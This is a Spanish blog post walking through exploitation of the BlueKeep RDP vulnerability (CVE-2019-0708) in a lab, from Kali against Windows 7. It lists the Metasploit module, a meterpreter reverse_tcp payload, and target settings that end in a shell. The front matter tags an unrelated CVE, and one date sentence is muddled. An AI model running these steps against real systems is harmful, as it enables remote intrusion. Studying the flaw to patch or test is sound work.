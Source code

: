 ```yaml
---
layout: single
title: Explotación de CVE-2019-0708 - Vulnerabilidades
excerpt: "la vulnerabilidad del servicio de escritorio remoto de Windows BlueKeep permite a los usuarios no autenticados realizar la ejecución remota de código."
date: 2020-10-29
classes: wide
header:
  teaser: /assets/images/vulnerabilidades/cve-2019-0708/cve-2019-0708.png
  teaser_home_page: true
  icon: /assets/images/rdp.webp
categories:
  - Vulnerabilidades
 
tags:  
  - cve-2022-46169
  - blueKeep
  - rdp
  - metasploit
  
---
```


![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-0708.png)

## Descripción

Esta vulnerabilidad de ejecución remota de código afecta al Servicios de Escritorio Remoto (RDP), anteriormente conocidos como Terminal Server. Esta vulnerabilidad es de pre-autenticación y no requiere la interacción del usuario. En otras palabras, esta vulnerabilidad actúa como un Gusano, lo que significa que cualquier malware que explote el fallo podría propagarse rápidamente a otras máquinas vulnerables. Este caso es similar al malware WannaCry que se extendió por todo el mundo en el año 2017.

•	CVE: CVE-2019-0708

•	Factor de Riesgo: Alto

•	Valor CVSS Base: 9.8


## ¿Qué es BlueKeep?

BlueKeep es una vulnerabilidad de software que afecta a versiones antiguas de Microsoft Windows. El riesgo es significativo porque ataca el Protocolo de escritorio remoto (RDP) del sistema operativo, que permite conectar con otro ordenador a través de una conexión de red. De este modo, una ciberamenaza podría extenderse a gran velocidad. Se detectó por primera vez en mayo, en el Centro Nacional de Ciberseguridad del Reino Unido. Desde mediados de mayo de 2019.

## Productos Afectados:

•	Microsoft Windows 7 for 32-bit Systems SP1 

•	Microsoft Windows 7 for x64-based Systems SP1 

•	Microsoft Windows Server 2003

•	Microsoft Windows Server 2008 R2 for Itanium-based Systems SP1 

•	Microsoft Windows Server 2008 R2 for x64-based Systems SP1 

•	Microsoft Windows Server 2008 for 32-bit Systems SP2

•	Microsoft Windows Server 2008 for Itanium-based Systems SP2 

•	Microsoft Windows Server 2008 for x64-based Systems SP2 

•	Microsoft Windows XP

## Explotación:

Para esta demostración atacaremos desde un sistema operativo Kali Linux y como equipo víctima utilizaremos un sistema Windows 7.

•	Ejecutamos en la terminal msfconsole para ejecutar Metasploit

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-07081.png)

•	use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-07082.png)

•	set PAYLOAD windows/x64/meterpreter/reverse_tcp

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-07083.png)

•	set RHOSTS <dirección IP de la víctima> (x64 Windows 7 o 2008 R2)

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-07084.png)

•	set TARGET a un objetivo más específico basado en su entorno

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-07085.png)

Comprobemos que tenemos Shell.

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-07086.png)

## Referencias:

•	https://github.com/rapid7/metasploit-framework/pull/12283#issue-315012107 

•	https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-0708 

•	https://krebsonsecurity.com/tag/cve-2019-0708/

•	https://support.microsoft.com/es-co/help/4500705/customer-guidance-for-cve-2019-0708
